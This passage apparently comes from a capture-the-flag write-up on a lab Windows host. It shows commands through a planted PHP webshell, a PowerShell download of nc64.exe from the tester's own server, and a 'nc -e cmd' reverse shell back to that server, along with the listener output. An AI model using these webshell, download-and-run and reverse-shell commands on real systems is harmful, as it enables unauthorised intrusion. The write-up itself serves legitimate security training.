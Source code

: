 

    Error: SQLSTATE[HY000]: General error



But if I POST the same command again, I get a different error saying the
file already exists:



    Error: SQLSTATE[HY000]: General error: 1086 File 'c:/inetpub/wwwroot/_0xdf.php' already exists



Now I can hit the webshell, and I have command execution:



    root@kali# curl -s 'http://10.10.10.167/_0xdf.php?cmd=whoami'
    nt authority\iusr
            2       3       4       5       6



#### Get NC Shell

I'll start a Python webserver in the directory where I keep Windows
`nc`, and then run:



    root@kali# curl '10.10.10.167/_0xdf.php?cmd=powershell+wget+http://10.10.14.4/nc
    64.exe+-outfile+\windows\temp\nc.exe'



This will download `nc64.exe` to `\windows\temp\nc.exe`.

I get the request on my server:



    root@kali# cd /opt/shells/netcat/; python3 -m http.server 80; cd -
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.167 - - [24/Nov/2019 14:13:47] "GET /nc64.exe HTTP/1.1" 200 -



Now, with a local `nc` listener waiting, I'll execute `nc` to get a
shell:



    root@kali# curl '10.10.10.167/_0xdf.php?cmd=\windows\temp\nc.exe+-e+cmd+10.10.14.4+443'



I get a shell as iusr immediately:



    root@kali# rlwrap nc -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.167.
    Ncat: Connection from 10.10.10.167:53175.
    Microsoft Windows [Version 10.0.17763.805]
    (c) 2018 Microsoft Corporation. All rights reserved.
